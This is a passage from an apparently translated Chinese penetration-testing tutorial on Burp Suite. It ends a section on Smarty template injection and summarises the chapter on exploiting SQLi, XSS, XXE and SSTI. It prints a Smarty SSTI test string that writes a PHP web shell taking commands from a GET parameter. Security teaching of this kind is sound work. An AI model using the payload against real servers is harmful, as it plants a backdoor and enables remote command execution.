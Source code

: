 在这段代码中，我们可以看到，`getStreamVariable()`方法可能容易读取任何具有服务器权限的文件。此外，我们还可以调用其他方法。

因此，为了在服务器上执行命令，Ketter 向我们展示了以下测试字符串：

```
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ? 
>",self::clearConfig())} 
```

我们可以在`$_GET`变量中添加命令。

在 Burp Suite 中，我们可以为不同的模板引擎添加这些测试字符串作为列表，然后使用入侵者工具中的有效负载选项发起攻击，如以下屏幕截图所示：

![](Images/499cb38c-972e-45a5-8f4d-6961fb673c3b.png)

# 总结

在本章中，我们学习了 Burp Suite 用来利用不同类型漏洞的常规工具。特别是，我们探索了盲 SQL 注入、OS 命令注入、利用 XSS、利用 XSS 窃取会话、利用 XSS 控制 web 浏览器、利用 XXE、利用 XXE 从服务器提取文件以及通过模板引擎利用 SSTI。

在下一章中，我们将利用其他类型的漏洞，展示 Burp Suite 中的更多选项和功能。